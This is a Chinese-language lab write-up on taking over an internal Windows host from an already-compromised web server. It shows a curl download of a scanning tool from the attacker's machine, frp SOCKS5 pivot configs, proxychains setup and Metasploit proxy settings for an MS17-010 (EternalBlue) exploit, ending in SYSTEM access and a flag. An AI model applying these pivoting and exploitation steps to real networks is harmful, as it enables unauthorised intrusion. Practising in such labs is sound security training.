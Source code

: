 ```yaml
---
title: "EP-Win8086"
date: 2024-11-15
categories: 
  - "engineering-practice"
tags: 
  - "windows"
  - "工程实践"
---
```


## 前言

本文是在已经攻破`EP-web01`的基础上，对其内网中的Win8086进行攻击，最终获取到其权限

## 漏洞扫描

由于上篇文章已经可以远程登录Web01，这里直接上传fscan的`windows`版本，并且进行漏扫

这里还是使用http传输文件

```
#kali里面
$ python -m http.server 80

#win
PS : curl 192.168.237.140/fscan.exe -O fscan.exe
```

![](./images/image-31.png)

好像扫到一个`MS17-010`的漏洞

![](./images/image-32.png)

对36进行扫描也是发现`MS17-010`的漏洞

![](./images/image-33.png)

## 搭建代理

（题外话：为什么我要使用外部的工具呢？因为`msf`自带的`socks_proxy`我这里尝试了好像用不了，或许是我操作有问题，不过有工具用也是可以的）

frp内网穿透工具

- [Releases · fatedier/frp (github.com)](https://github.com/fatedier/frp/releases)

这里使用的是V6.0的版本，分别下载`linux`和`windows`版本

![](./images/image-24.png)

```
[common]
bind_port = 7000
```

![](./images/image-25.png)

```
[common]
server_addr = 192.168.237.140 
server_port = 7000  
tls_enable = ture 

[plugin socks]
type = tcp  
plugin = socks5 
remote_port = 46075  
use_encryption = true
use_compression = true
```

其中windows的frp配置文件中的`server_addr`就是kali的IP，使用的代理端口就是`46075`

web01的主机上仍然使用`curl -O`的方式进行下载文件

![](./images/image-26.png)

最后两端开启frp服务

![](./images/image-27.png)

![](./images/image-28.png)

如图所示，frp代理开启成功

回到Kali

```
$ vim /etc/proxychains4.conf
```

在最下端如图配置即可

![](./images/image-29.png)

## MS17-010

```
$ msfconsole
```

打开msfconsole，并且执行这两行命令，就不用再执行`proxychains`了

```
setg Proxies socks5:127.0.0.1:46075 #设置全局代理
set ReverseAllowProxy true #这个参数是因为使用全局代理，可能会导致我们的shell无法反弹，所以需要开启。
```

然后正常的使用永恒之蓝的漏洞即可

![](./images/image-35.png)

这里值得注意的是我使用的是`bind_tcp`，这是一个正向链接，因为kali通过代理是能访问到8086主机，而反过来是不行的。

![](./images/image-36.png)

可以看到已经是最高权限了

在C盘的Users的John用户目录下拿到第二个flag

![](./images/image-37.png)

进入Shell，修改字符集为65001，不然会乱码

![](./images/image-38.png)

其他的似乎并没有什么可以利用的东西了，这个靶机应该也就这样了
